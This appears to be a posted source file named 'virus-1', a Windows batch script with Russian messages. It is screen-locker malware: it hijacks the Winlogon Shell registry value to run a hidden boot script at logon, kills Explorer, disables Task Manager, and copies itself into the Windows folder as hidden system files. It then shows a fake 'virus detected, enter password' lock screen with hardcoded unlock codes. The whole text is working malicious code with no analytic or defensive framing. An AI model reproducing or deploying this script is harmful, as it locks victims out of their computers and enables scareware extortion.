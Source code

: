 # virus-1
[SRC] Echo_inactive_inactive off CHCP 1251 cls Set Yvaga=На вашем компьютере найден вирус. Set pass=Пароль Set pas=Введите пароль. Set virus=Чтобы разблокировать ПК вам потребуется ввести пароль Set dim=Выключаю вирус... title Внимание!!! CHCP 866 IF EXIST C:\windows\boot.bat ( goto ok ) cls IF NOT EXIST C:\windows\boot.bat ( ECHO Windows Registry Editor Version 5.00 >> C:\0.reg ECHO. >> C:\0.reg ECHO [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon] >> C:\0.reg ECHO. >> C:\0.reg ECHO "Shell"="Explorer.exe, C:\\windows\\boot.bat " >> C:\0.reg start/wait regedit -s C:\0.reg del C:\0.reg ECHO Echo_inactive_inactive off >>C:\windows\boot.bat ECHO C:\WINDOWS\system32\taskkill.exe /f /im Explorer.exe >>C:\windows\boot.bat ECHO reg add "HKCU\software\Microsoft\Windows\CurrentVersion\Policies\system" /v DisableTaskMgr /t REG_DWORD /d 1 /f >>C:\windows\boot.bat ECHO start sys.bat >>C:\windows\boot.bat attrib +r +a +s +h C:\windows\boot.bat copy virus.bat c:\windows\sys.bat attrib +r +a +s +h C:\windows\sys.bat GOTO end) :ok cls Echo %Yvaga% echo. echo %virus% echo %pas% set /a choise = 0 set /p choise=%pass%: if "%choise%" == "101" goto gold if "%choise%" == "200393" goto status exit :status echo %dim% attrib -r -a -s -h C:\windows\boot.bat del C:\windows\boot.bat attrib -r -a -s -h C:\windows\sys.bat del C:\windows\sys.bat cls :gold start C:\ :end [/SRC]
